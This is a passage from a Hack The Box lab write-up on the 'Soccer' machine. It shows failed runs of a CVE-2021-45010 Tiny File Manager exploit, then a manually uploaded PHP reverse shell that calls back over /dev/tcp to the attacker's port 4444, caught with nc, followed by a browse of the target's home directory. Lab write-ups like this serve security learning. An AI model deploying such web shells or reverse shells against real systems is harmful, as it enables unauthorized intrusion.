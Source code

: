     [+] Found WEBROOT directory for tinyfilemanager using full path disclosure bug : /var/www/html/tiny/ 
    
    [-] File Upload Unsuccessful! Exiting!

Better, but there still seems to be something wrong. Let's try the other script again by adjusting the shot there, too.

    ┌──(in7rud3r㉿kali-muletto)-[~/…/attack/expl/git/tinyfilemanager-2.4.3-exploit]
    └─$ python tiny_file_manager_exploit.py http://soccer.htb/tiny/tinyfilemanager.php admin admin@123 
     
    
    CVE-2021-45010: Tiny File Manager <= 2.4.3 Authenticated RCE  Exploit.
    
    Vulnerability discovered by Febin
    
    Exploit Author: FEBIN
    
    [+] Leak in the webroot direcory path to upload shell.
    [+] WEBROOT found:  /var/www/html/tiny
    [+] Trying to upload pwn_749599792829250560.php to /var/www/html/tiny directory...
    {"status":"error","info":"The specified folder for upload isn't writeable."}
    [-] No Success response. Files does not seem to be uploaded successfully.
    Exiting...
    Exited.

Nothing. At this point, I tried to upload manually, but I tried with **php** reverse shells. Obviously, some time has passed before I find the right one.

    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.194 - Soccer (lin)/attack/expl]
    └─$ echo "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.145/4444 0>&1'\");?>" > shell_in7.php

I uploaded the file and started the shell from the link where it was saved ([http://soccer.htb/tiny/uploads/shell\_in7.php](http://soccer.htb/tiny/uploads/shell_in7.php?ref=secjuice.com)). Et voilà, we are inside.

    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.194 - Soccer (lin)/attack/expl]
    └─$ nc -lvp 4444                 
    listening on [any] 4444 ...
    connect to [10.10.14.145] from soccer.htb [10.10.11.194] 53458
    bash: cannot set terminal process group (1039): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@soccer:~/html/tiny/uploads$ 

Of course, I'm the user running the portal instance (**www-data**), so there's little I can do yet.

    www-data@soccer:/$ cd home
    cd home
    www-data@soccer:/home$ ls -la
    ls -la
    total 12
    drwxr-xr-x  3 root   root   4096 Nov 17 09:25 .
    drwxr-xr-x 21 root   root   4096 Dec  1 18:51 ..
    drwxr-xr-x  3 player player 4096 Nov 28 22:12 player
    www-data@soccer:/home$ cd player
    cd player
    www-data@soccer:/home/player$ ls -la
    ls -la
    total 28
    drwxr-xr-x 3 player player 4096 Nov 28 22:12 .
    drwxr-xr-x 3 root   root   4096 Nov 17 09:25 ..
    lrwxrwxrwx 1 root   root      9 Nov 17 09:02 .bash_history -> /dev/null
    -rw-r--r-- 1 player player  220 Feb 25  2020 .bash_logout
    -rw-r--r-- 1 player player 3771 Feb 25  2020 .bashrc
    drwx------ 2 player player 4096 Nov 17 09:00 .cache
    -rw-r--r-- 1 player player  807 Feb 25  2020 .profile
    lrwxrwxrwx 1 root   root      9 Nov 17 09:02 .viminfo -> /dev/null
    -rw-r----- 1 root   player   33 Jan 25 17:36 user.txt
    www-data@soccer:/home/player$ cat user.txt